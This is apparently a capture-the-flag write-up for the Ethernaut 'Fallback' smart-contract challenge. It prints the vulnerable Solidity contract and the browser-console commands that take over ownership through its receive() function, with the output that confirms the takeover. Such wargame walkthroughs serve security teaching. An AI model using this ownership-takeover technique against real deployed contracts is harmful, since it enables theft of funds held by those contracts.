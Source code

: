 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel1.svg">

## Exploration

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
## Subverting
```shell
await contract.owner()
"0x9CB391dbcD447E645D6Cb55dE6ca23164130D008"
```
```shell
await contract.contribute({value: 4})
```
This notification met me.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/contribute.png">

```shell
await contract.getContribution()
Object { negative: 0, words: (2) […], length: 1, red: null }
​
length: 1
​
negative: 0
​
red: null
​
words: Array [ 4, <1 empty slot> ]
​​
0: 4
​​
length: 2
​​
<prototype>: Array []
​
<prototype>: Object { _init: _init(t, e, r), _initNumber: _initNumber(t, e, r), _initArray: _initArray(t, e, r), … }
```
### JSON RPC ETH

```shell
await contract.sendTransaction({value: 1})
```
```shell
await contract.owner()
"0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b"
```

**_by wasny0ps_**
